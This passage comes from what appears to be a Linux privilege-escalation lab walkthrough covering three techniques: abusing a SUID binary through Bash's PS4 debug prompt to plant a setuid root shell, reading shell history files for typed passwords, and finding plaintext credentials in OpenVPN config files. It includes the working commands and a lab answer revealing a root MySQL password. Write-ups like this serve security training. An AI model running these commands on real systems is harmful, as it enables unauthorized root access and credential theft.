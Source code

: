 > No answer required

## Task 15: SUID / SGID Executables - Abusing Shell Features (#2)

This exploit does not work on "**Bash version 4.4 and above**".

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements. We can modify the PS4 prompt to code that will spawn a root shell.

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

![Exploiting Shell Vulnerability](images/thm-linux-privesc/exploiting-shell-2.png)

1. **Read and follow along with the above.**

> No answer required

## Task 16: Passwords & Keys - History Files

If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file. The content of the history file can be viewed using the following command:

```
cat ~/.*history | less
```

![Shell History File|320](images/thm-linux-privesc/shell-history.png)

And as we can see the password for the root user is present in plain text in the history file.

![Using Password|340](images/thm-linux-privesc/using-password.png)

1. **What is the full mysql command the user executed?**

> mysql -h somehost.local -uroot -ppassword123

## Task 17: Passwords & Keys - Config Files

Config files often contain passwords in plaintext or other reversible formats.

Let's have a look at the content of the home directory. We can see an OpenVPN configuration file. In the configuration file, we can see a line that is pointing to "auth.txt" for username and password.

![View Config File Values|300](images/thm-linux-privesc/config-files.png)

When we view the contents of that file we see that the password and username are present in plaintext.

![Using Password|340](images/thm-linux-privesc/using-password.png)
